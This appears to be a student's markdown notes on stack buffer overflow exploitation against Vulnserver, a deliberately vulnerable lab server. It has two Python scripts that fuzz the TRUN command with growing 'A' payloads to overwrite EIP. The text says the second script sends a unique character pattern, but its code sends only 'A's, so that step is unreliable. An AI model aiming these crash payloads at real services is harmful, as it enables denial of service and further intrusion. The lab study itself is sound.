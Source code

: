 ﻿# Buffer overflow
## General

- ESP: Top of stack
- EBP: Bottom of stack
- EIP: Pointer to the next instruction to be executed

# Tools

- [Immunity debugger](#immunity-debugger)

# Immunity debugger
Tool to see the memory of a program  
Use it by binding it to the vulnserver
https://immunityinc.com/products/debugger/

poc.py

    #!/usr/bin/python
    
    import socket
    import os
    import sys
    import time
    
    host="10.211.55.7"
    port=4444
    
    buffer=["A"]
    counter=100
    while len(buffer) <= 30:
            buffer.append("A"*counter)
            counter=counter+200
    
    for string in buffer:
        print "fuzzing TRUN with %s bytes" % len(string)
        expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        expl.connect((host, port))
        expl.send("TRUN /.:/" + string)
        expl.close()
        time.sleep(1)

poc2.py

    #!/usr/bin/python

    import socket
    import os
    import sys
    
    host="10.211.55.7"
    port=4444
    
    buffer = "TRUN /.:/" + "A" * 5900
    
    expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    expl.connect((host, port))
    expl.send(buffer)
    expl.close()

The EIP has not a fixed address and we need to find it  
poc.py sends payloads (filled with A) that are every time bigger to see if EIP get overwritten  
poc2.py sends a payload (filled with consecutive chars) to find the exact address of the EIP



## Vulnserver
This server has a buffer overflow vuln
https://github.com/stephenbradshaw/vulnserver